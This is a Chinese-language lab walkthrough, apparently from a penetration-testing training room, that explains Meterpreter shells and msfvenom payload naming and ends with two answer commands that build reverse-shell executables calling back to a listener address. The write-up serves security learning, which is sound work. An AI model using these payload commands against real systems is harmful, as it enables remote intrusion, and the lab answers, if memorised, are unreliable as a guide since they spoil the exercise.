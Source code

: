**Meterpreter**（英文意思是翻译器）

关于 Metasploit，另一个要讨论是 Meterpreter shell。 Meterpreter shell 是 Metasploit自带的的全功能 shell，它们是完全稳定的，这使得它们在针对Windows 目标机时效果非常好。Meterpreter shell 也有很多自己的内置功能，例如文件上传和下载。 如果我们想使用Metasploit 的后渗透工具，那么我们就需要先获得一个 Meterpreter shell。

Meterpreter shell 的缺点是它们必须在 Metasploit中才能捕获，它们也被某些认证考试禁止使用，因此学习关于Meterpreter的替代方法是个好主意。

**有效载荷（payload）命名约定**

使用 msfvenom 时，了解命名系统的工作原理很重要，基本的payload命名约定如下：

> //

例如:

> linux/x86/shell\_reverse\_tcp

这将为 x86 Linux 的目标机生成不分段的反向shell payload。

此基本命名约定的例外是Windows 32位操作系统的目标，对于该类目标，命名payload时，不会指定操作系统的架构位数，例如：

> windows/shell\_reverse\_tcp

对于64位的 Windows 目标，命名payload时，arch 将被指定为normal (x64) 。

我们把命名中关于payload的部分再细分一下。

在上面的示例中，使用的payload是 `shell_reverse_tcp`， 这表明它是一个不分段的payload。不分段的payload会用下划线 (\_) 表示，与此payload等效的分段payload是：`shell/reverse_tcp`（分段payload会用一个斜杠/表示）。

这些规则也适用于 Meterpreter payload。一个针对Windows 64位目标的分段Meterpreter payload ，名称将如下所示：

> windows/x64/meterpreter/reverse\_tcp

针对Linux 32位目标的不分段 Meterpreter payload，名称将如下所示：

> linux/x86/meterpreter\_reverse\_tcp

除了 msfconsole 手册页之外，使用 msfvenom 时要注意的另一个命令是：`msfvenom --list payloads`，这可用于列出所有可用的有效载荷，然后可以将其通过管道符传输到 grep 以搜索一组特定的有效载荷，例如：

![image-20221007210547378](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007210547378.png)

这为我们提供了一整套针对 Linux 32位目标的 Meterpreter 有效载荷。

**答题**

```shell
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>      #question1

msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443             #question3
```

![image-20221007211444135](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007211444135.png)

## Metasploit multi/handler模块

